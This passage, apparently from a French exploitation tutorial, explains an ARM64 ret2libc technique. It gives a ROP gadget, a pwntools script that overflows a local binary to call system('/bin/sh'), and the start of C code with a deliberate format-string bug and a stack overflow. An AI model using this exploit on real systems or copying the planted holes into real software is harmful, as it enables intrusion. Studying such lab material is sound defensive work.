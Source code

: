 Nous devons avoir dans **`x0`** l'adresse de la chaîne **`/bin/sh`** et appeler **`system`**.

En utilisant rooper, un gadget intéressant a été trouvé :
```
0x000000000006bdf0: ldr x0, [sp, #0x18]; ldp x29, x30, [sp], #0x20; ret;
```
Ce gadget chargera `x0` depuis **`$sp + 0x18`** puis chargera les adresses x29 et x30 depuis sp et sautera à x30. Ainsi, avec ce gadget, nous pouvons **contrôler le premier argument et ensuite sauter à system**.

### Exploit
```python
from pwn import *
from time import sleep

p = process('./rop')  # For local binary
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")
libc.address = 0x0000fffff7df0000
binsh = next(libc.search(b"/bin/sh")) #Verify with find /bin/sh
system = libc.sym["system"]

def expl_bof(payload):
p.recv()
p.sendline(payload)

# Ret2main
stack_offset = 108
ldr_x0_ret = p64(libc.address + 0x6bdf0) # ldr x0, [sp, #0x18]; ldp x29, x30, [sp], #0x20; ret;

x29 = b"AAAAAAAA"
x30 = p64(system)
fill = b"A" * (0x18 - 0x10)
x0 = p64(binsh)

payload = b"A"*stack_offset + ldr_x0_ret + x29 + x30 + fill + x0
p.sendline(payload)

p.interactive()
p.close()
```
## Ret2lib - Contournement de NX, ASL et PIE avec des fuites printf depuis la pile
```c
#include <stdio.h>

void printfleak()
{
char buf[100];
printf("\nPrintf>\n");
fgets(buf, sizeof(buf), stdin);
printf(buf);
}

void bof()
{
char buf[100];
printf("\nbof>\n");
fgets(buf, sizeof(buf)*3, stdin);
}

void main()
{
printfleak();
bof();
```